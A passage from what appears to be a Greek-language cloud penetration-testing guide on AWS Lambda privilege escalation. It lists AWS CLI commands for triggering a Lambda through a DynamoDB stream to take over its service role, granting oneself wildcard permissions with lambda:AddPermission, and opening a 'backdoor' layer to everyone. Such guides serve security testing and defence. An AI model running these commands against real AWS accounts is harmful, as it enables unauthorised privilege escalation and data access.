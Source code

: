 ```bash
aws dynamodb create-table --table-name my_table \
--attribute-definitions AttributeName=Test,AttributeType=S \
--key-schema AttributeName=Test,KeyType=HASH \
--provisioned-throughput ReadCapacityUnits=5,WriteCapacityUnits=5 \
--stream-specification StreamEnabled=true,StreamViewType=NEW_AND_OLD_IMAGES
```
Τώρα είναι δυνατό να **συνδέσετε τη Lambda λειτουργία με τον πίνακα DynamoDB** με το **δημιουργία ενός χαρτογραφήματος πηγής συμβάντος**:
```bash
aws lambda create-event-source-mapping --function-name my_function \
--event-source-arn <arn_of_dynamodb_table_stream> \
--enabled --starting-position LATEST
```
Με τη λειτουργία Lambda που συνδέεται με το ρεύμα DynamoDB, ο επιτιθέμενος μπορεί **άμεσα να ενεργοποιήσει τη Lambda ενεργοποιώντας το ρεύμα DynamoDB**. Αυτό μπορεί να επιτευχθεί **εισάγοντας ένα στοιχείο** στον πίνακα DynamoDB:
```bash
aws dynamodb put-item --table-name my_table \
--item Test={S="Random string"}
```
**Πιθανή Επίδραση:** Άμεση ανύψωση προνομίων στον καθορισμένο ρόλο υπηρεσίας lambda.

### `lambda:AddPermission`

Ένας επιτιθέμενος με αυτήν την άδεια μπορεί **να χορηγήσει στον εαυτό του (ή σε άλλους) οποιεσδήποτε άδειες** (αυτό δημιουργεί πολιτικές βασισμένες στον πόρο για τη χορήγηση πρόσβασης στον πόρο):
```bash
# Give yourself all permissions (you could specify granular such as lambda:InvokeFunction or lambda:UpdateFunctionCode)
aws lambda add-permission --function-name <func_name> --statement-id asdasd --action '*' --principal arn:<your user arn>

# Invoke the function
aws lambda lambda invoke --function-name <func_name> /tmp/outout
```
{% endcode %}

**Πιθανή Επίπτωση:** Άμεση ανύψωση προνομίων στον ρόλο υπηρεσίας lambda με τη χορήγηση δικαιώματος να τροποποιήσει τον κώδικα και να τον εκτελέσει.

### `lambda:AddLayerVersionPermission`

Ένας επιτιθέμενος με αυτό το δικαίωμα μπορεί **να χορηγήσει στον εαυτό του (ή σε άλλους) το δικαίωμα `lambda:GetLayerVersion`**. Μπορεί να έχει πρόσβαση στο layer και να αναζητήσει ευπαθείς πληροφορίες ή ευαίσθητα δεδομένα.

{% code overflow="wrap" %}
```bash
# Give everyone the permission lambda:GetLayerVersion
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion
```
{% endcode %}
